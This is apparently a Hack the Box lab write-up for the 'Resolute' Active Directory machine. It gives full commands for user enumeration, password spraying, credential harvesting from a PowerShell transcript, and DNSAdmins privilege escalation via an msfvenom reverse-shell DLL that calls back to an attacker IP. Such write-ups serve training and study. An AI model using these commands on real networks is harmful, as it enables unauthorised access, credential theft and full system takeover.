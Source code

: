 ```yaml
---
layout: post
title: Hack the Box - Resolute
author: Kolja
categories: [HtB]
tags: [ad]
---
```




## Enumeration
As done in the `HtB-Forest`  box can enumerate users using `rpcclient`:
```
rpcclient -U "" -N 10.10.10.169
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```

I also realized, that `enum4linux` displays this information too. Additionally, it gives us the descriptions of the users, which does contain the following:
```
Account created. Password set to Welcome123!
```

## Foothold
We can use the password from the description in combination with our user list to do a password spray attack:
```
crackmapexec smb -u ./userlist.txt -p 'Welcome123!' -d megabank.local 10.10.10.169       
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
```

This shows, that the `melanie` user has this password. So we now have valid credentials: `melanie/Welcome123!`

We can use these credentials to collect data using the `bloodhound-python` collector:
```
bloodhound-python -c All -u melanie@megabank.local -p 'Welcome123!' -ns 10.10.10.169 -d megabank.local -dc resolute.megabank.local
```

The collected data shows, that our owned user is in a group, that have some WMI privileges:

![wmi group](/assets/htb_resolute_wmi.png)

Additionally, we should be able to use PSRemote to gain access to the DC:

![psremote permissions](/assets/htb_resolute_psremote.png)

We can use `evil-winrm` to confirm this:
```
evil-winrm -i 10.10.10.169 -u Melanie -p 'Welcome123!' 
```

This works and after enumerating the box a bit we can find a file under:
```
C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

This file contains credentials for an additional user:
```
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```
These credentials are valid:
```
crackmapexec smb -u ./userlist.txt -p 'Serv3r4Admin4cc123!' -d megabank.local 10.10.10.169
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Administrator:Serv3r4Admin4cc123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Guest:Serv3r4Admin4cc123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\krbtgt:Serv3r4Admin4cc123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\DefaultAccount:Serv3r4Admin4cc123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\ryan:Serv3r4Admin4cc123! (Pwn3d!)
```

The data we imported into `bloodhound` tells us, that the user is in the `DNSADMINS` Group:
![DNSAdmin group](htb_resolute_dns_admin.png)

On older systems, this allowed us to escalate our privileges (this should be fixed by now). To exploit this we need a dll, which we can generate  using `msfvenom`:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f dll > test.dll
```

Afterward, we host this dll using `impacket-smbserver` and load it on the target system with the following commands:
```
dnscmd Resolute /config /serverlevelplugindll \\10.10.14.10\kali\test.dll;sc.exe stop dns;sc.exe start dns
```
This gives us a system shell:
```
nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from resolute.megabank.local [10.10.10.169] 49684
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```
